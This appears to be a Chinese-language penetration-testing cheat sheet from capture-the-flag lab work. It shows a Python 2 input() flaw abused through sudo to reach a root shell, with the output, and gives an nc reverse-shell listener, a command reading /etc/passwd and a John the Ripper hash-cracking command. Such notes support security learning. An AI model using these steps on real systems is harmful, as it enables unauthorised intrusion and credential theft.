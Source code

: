 -  python2 的 `input` 函数有缺陷，例子如下：

  ```python
  def guessit():
      num = randint(1, 101)
      print 'Choose a number between 1 to 100: '
      s = input('Enter your number: ')
      if s==num :
          system('/bin/sh')
      else:
          print 'Better Luck next time'
  ```

  `if s == num` ，当输入的参数 为变量名 num 时，便进入了这个 if

  ```bash
  sam@djinn:/home/sam$ sudo /root/lago
  What do you want to do ?
  1 - Be naughty
  2 - Guess the number
  3 - Read some damn files
  4 - Work
  Enter your choice:2
  Choose a number between 1 to 100: 
  Enter your number: num
  # id
  uid=0(root) gid=0(root) groups=0(root)
  ```

- 如果，发现图片是以 base64 形式展示的  `<img src="data:img/png;base64,` ，浏览器查看隐藏图片，火狐浏览器输入以上 base64code 即可， `data:img/png;base64,base64code`


-  `rlwrap` 可以使用 nc 反弹shell 后 上翻下翻键

  ```bash
  rlwrap nc -lvnp 6666
  ```

- `grep -v` 为去掉 xxx  

  ```bash
   cat /etc/passwd | grep -v nologin
  ```

- SSH 连接出现问题时，试试

  ```bash
  ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa  loneferret@192.168.0.102
  ```

- john 破解哈希

  ```bash
  sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
  ```

- unix 的 apache 配置文件在

  ```
  /usr/local/etc/apache22/httpd.conf
  ```
